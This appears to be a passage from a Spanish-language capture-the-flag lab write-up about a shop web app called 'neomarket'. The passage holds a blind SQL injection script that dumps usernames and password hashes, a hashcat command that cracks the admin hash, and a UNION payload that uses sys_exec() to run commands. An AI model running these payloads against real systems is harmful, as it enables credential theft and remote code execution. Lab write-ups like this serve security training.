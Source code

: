 ```python
    for position in range(1, 100):
        for character in characters:
        
            data = {
                'id' : "111' or substring((select group_concat(BINARY(username),0x3a,BINARY(password)) from shop.users),%d,1)='%s'-- -" % (position, character),
                'cantidad' : '1',
                'buy_articulo' : 'Comprar'
            }
            
            r = requests.post(main_url, data=data, cookies=cookies, allow_redirects=False)
            p1.status(data["id"])
            
            if r.status_code == 302:
                cadena += character
                p2.status(cadena)
                break

if __name__ == '__main__':
    makeSQLI()
```

Al ejecutar el script anterior, podremos volcar la información de la tabla **users**, donde encontraremos dos hashes: el nuestro y el del usuario **admin**. En este punto, procederemos a crackear el **hash** de dicho usuario: **Cracking admin hash**

![](<../assets/images/posts/2025-03-19-neomarket/Pasted image 20250318141852.png>)
### Cracking admin hash

Para crackear el hash del usuario **admin**, ejecutaremos el siguiente comando indicando el modo de **hash** (**3200**).

```bash
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
```

Veremos que la contraseña para el usuario **admin** es **speaker**. Cabe destacar que, aunque nos logueemos usando estas credenciales, no vamos a conseguir nada con esto.

![](<../assets/images/posts/2025-03-19-neomarket/Pasted image 20250318140549.png>)
### RCE

Tras enumerar la base de datos y ver que no hemos encontrado nada, nos daremos cuenta de que el punto de entrada es a través del siguiente payload, que abusa de la función `sys_exec()`.

```java
id=1' union select 1,2,sys_exec("ping -c 1 192.168.26.10")-- -&cantidad=1&buy_articulo=Comprar
```
